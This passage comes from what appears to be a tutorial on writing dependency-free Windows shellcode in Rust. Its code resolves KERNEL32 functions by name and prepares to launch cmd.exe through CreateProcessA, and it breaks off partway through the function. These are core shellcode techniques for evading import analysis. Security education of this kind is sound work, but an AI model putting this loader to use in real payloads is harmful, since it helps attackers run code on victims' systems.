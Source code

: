 For each function, we compare its name with the input function, and when we find the name of the function we're looking for, we return its function pointer.

### Shellcode program
From the functions developed above we have everything we need to freely call any Windows API function without the need for any Rust dependencies:
```
# src/main.rs

pub type CreateProcessA = extern "system" fn(
    PCSTR,
    PSTR,
    *const (),
    *const (),
    i32,
    u32,
    *const (),
    PCSTR,
    *const STARTUPINFOA,
    *mut PROCESS_INFORMATION,
);
pub type WaitForSingleObject = extern "system" fn (HANDLE, i32);

#[no_mangle]
pub extern "C" fn main() {
    let KERNEL32_STR: [u16; 13] = [75, 69, 82, 78, 69, 76, 51, 50, 46, 68, 76, 76, 0];
    let kernel32_handle = get_module_by_name(KERNEL32_STR.as_ptr());

    let create_process_a = get_func_by_name(kernel32_handle, "CreateProcessA\0".as_ptr());
    let create_process_a: CreateProcessA = unsafe { core::mem::transmute(create_process_a) };
    let wait_for_single_object = get_func_by_name(kernel32_handle, "WaitForSingleObject\0".as_ptr());
    let wait_for_single_object: WaitForSingleObject = unsafe { core::mem::transmute(wait_for_single_object) };

    let mut cmdline = *b "cmd.exe\0";
    let startup_info = STARTUPINFOA{
        cb: 0,
        lpReserved: ptr::null_mut(),
        lpDesktop: ptr::null_mut(),
        lpTitle: ptr::null_mut(),
        dwX: 0,
        dwY: 0,
        dwXSize: 0,
        dwYSize: 0,
        dwXCountChars: 0,
        dwYCountChars: 0,
        dwFillAttribute: 0,
        dwFlags: 0,
        wShowWindow: 0,
        cbReserved2: 0,
        lpReserved2: ptr::null_mut(),
        hStdInput: ptr::null_mut(),
        hStdOutput: ptr::null_mut(),
        hStdError: ptr::null_mut()
    };
    let mut process_info = PROCESS_INFORMATION{
        hProcess: ptr::null_mut(), 
        hThread: ptr::null_mut(), 
        dwProcessId: 0, 
        dwThreadId: 0
    };

```
